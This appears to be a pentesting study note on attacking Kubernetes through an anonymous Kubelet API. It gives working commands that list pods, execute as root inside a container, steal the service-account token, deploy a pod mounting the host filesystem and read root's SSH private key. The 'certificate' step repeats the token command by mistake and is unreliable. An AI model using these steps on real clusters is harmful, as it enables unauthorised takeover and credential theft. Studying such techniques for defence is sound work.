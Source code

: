 ```yaml
---
title: Pentesting Kubernetes
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - cloud
  - kubernetes
  - containers
---
```


# Pentesting Kubernetes

[See Kubernetes, the Basic](kubernetes.md).

The Control Plane serves as the management layer. It consists of several crucial components, including:

| **Service**             | **TCP Ports**  |
| ----------------------- | -------------- |
| `etcd`                  | `2379`, `2380` |
| `API server`            | `6443`         |
| `Scheduler`             | `10251`        |
| `Controller Manager`    | `10252`        |
| `Kubelet API`           | `10250`        |
| `Read-Only Kubelet API` | `10255`        |


Security in Kubernetes is divided into different domains:

1. **Cluster Infrastructure Security:** Ensuring the underlying nodes and network are protected.
2. **Cluster Configuration Security:** Managing RBAC policies, API access, and network policies.
3. **Application Security:** Implementing container security best practices.
4. **Data Security:** Ensuring encrypted communication and storage mechanisms.


Each domain includes multiple layers and elements that must be secured and managed appropriately by the developers and administrators.

## Kubernetes API

The core of Kubernetes architecture is its API, which serves as the main point of contact for all internal and external interactions.  The kube-apiserver is responsible for hosting the API, which handles and verifies RESTful requests for modifying the system's state. These requests can involve creating, modifying, deleting, and retrieving information related to various resources within the system. Overall, the Kubernetes API plays a crucial role in facilitating seamless communication and control within the Kubernetes cluster.


Within the Kubernetes framework, an API resource serves as an endpoint that houses a specific collection of API objects. These objects pertain to a particular category and include essential elements such as Pods, Services, and Deployments, among others.


| **Request** | **Description**                                                |
| ----------- | -------------------------------------------------------------- |
| `GET`       | Retrieves information about a resource or a list of resources. |
| `POST`      | Creates a new resource.                                        |
| `PUT`       | Updates an existing resource.                                  |
| `PATCH`     | Applies partial updates to a resource.                         |
| `DELETE`    | Removes a resource.                                            |

## Anonymous access to Kubelet

Worker nodes execute the actual application workloads and run containerized applications. One component of a worker node is Kubelet, the primary agent on each worker node that ensures pods are running as expected and communicates with the API server.

In Kubernetes, the `Kubelet` can be configured to permit `anonymous access`. By default, the Kubelet allows anonymous access. Anonymous requests are considered unauthenticated, which implies that any request made to the Kubelet without a valid client certificate will be treated as anonymous.

This can be problematic as any process or user that can reach the Kubelet API can make requests and receive responses, potentially exposing sensitive information or leading to unauthorized actions.


```shell-session
curl https://$IP:6443 -k
```

In this case, we try to access the root path, which would grant significant control over the Kubernetes cluster if successful. By default, access to the root path is generally restricted to authenticated and authorized users with administrative privileges and the API server denied the request, responding with a 403 Forbidden status code accordingly.

## Extract PODs 
However, if successful (no authentication needed) we could extract PODs via Kubelet API:

```shell-session
curl https://$ip:10250/pods -k | jq .
```

The information displayed in the output includes the `names`, `namespaces`, `creation timestamps`, and `container images` of the pods. It also shows the `last applied configuration` for each pod, which could contain confidential details regarding the container images and their pull policies.

We can also use metadata such as `uid` and `resourceVersion` to perform reconnaissance and recognize potential targets for further attacks. Disclosing the last applied configuration can potentially expose sensitive information, such as passwords, secrets, or API tokens, used during the deployment of the pods.


#### Kubeletctl - Extracting Pods

We can further analyze the pods with the following command:

```shell-session
kubeletctl -i --server 10.129.10.11 pods
```


To effectively interact with pods within the Kubernetes environment, it's important to have a clear understanding of the available commands. One approach that can be particularly useful is utilizing the `scan rce` command in `kubeletctl`. This command provides valuable insights and allows for efficient management of pods. Kubelet API - Available Commands: 

```shell-session
kubeletctl -i --server $ip scan rce
```


## Kubelet API - Executing Commands


It is also possible for us to engage with a container interactively and gain insight into the extent of our privileges within it. This allows us to better understand our level of access and control over the container's contents.

```shell-session
 kubeletctl -i --server 10.129.10.11 exec "id" -p nginx -c nginx
```

Output:

```shell-session
uid=0(root) gid=0(root) groups=0(root)
```

The output of the command shows that the current user executing the `id` command inside the container has root privileges. This indicates that we have gained administrative access within the container, which could potentially lead to privilege escalation vulnerabilities.

## Kubelet API - Extracting Token and certificate

Token:

```shell-session
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```

Certificate

```shell-session
kubeletctl -i --server 10.129.10.11 exec "cat /var/run/secrets/kubernetes.io/serviceaccount/token" -p nginx -c nginx | tee -a k8.token
```


Now that we have both the `token` and `certificate`, we can check the access rights in the Kubernetes cluster:

```shell-session
export token=`cat k8.token`
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.10.11:6443 auth can-i --list
```


 Now we can `get`, `create`, and `list` pods which are the resources representing the running container in the cluster. From here on, we can create a `YAML` file that we can use to create a new container and mount the entire root filesystem from the host system into this container's `/root` directory. 

### Further exploitation

From there on, we could access the host systems files and directories. The `YAML` file could look like following:

```yaml
apiVersion: v1
kind: Pod
metadata:
  name: privesc
  namespace: default
spec:
  containers:
  - name: privesc
    image: nginx:1.14.2
    volumeMounts:
    - mountPath: /root
      name: mount-root-into-mnt
  volumes:
  - name: mount-root-into-mnt
    hostPath:
       path: /
  automountServiceAccountToken: true
  hostNetwork: true
```

Once created, we can now create the new pod and check if it is running as expected.

**Creating a new Pod**

```shell-session
kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 apply -f privesc.yaml
```


**Listing Pods:**

```shell-session
 kubectl --token=$token --certificate-authority=ca.crt --server=https://10.129.96.98:6443 get pods
```

If the pod is running we can execute the command and we could spawn a reverse shell or retrieve sensitive data like private SSH key from the root user.

**Extracting Root's SSH Key**

```shell-session
kubeletctl --server 10.129.10.11 exec "cat /root/root/.ssh/id_rsa" -p privesc -c privesc
```